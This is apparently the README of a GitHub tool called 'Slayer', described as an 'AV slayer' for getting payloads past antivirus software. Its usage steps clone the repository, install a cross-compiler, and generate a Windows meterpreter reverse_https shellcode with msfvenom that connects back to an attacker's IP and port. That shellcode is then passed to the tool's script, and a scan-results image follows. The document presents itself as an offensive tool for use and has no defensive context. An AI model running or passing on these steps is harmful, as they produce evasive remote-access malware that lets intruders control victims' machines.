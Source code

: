 # Slayer

Just a AV slayer. Nothing special ;)

### USAGE
git clone https://github.com/mertdas/slayer.git && apt-get install mingw-w64*

cd slayer

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR IP LPORT=YOUR PORT -f raw -o shellcode.raw

python3 slayer.py

### Scan Results

![image](https://user-images.githubusercontent.com/48562581/152684537-d445638f-c73b-46cb-a809-dfaa5a65b334.png)
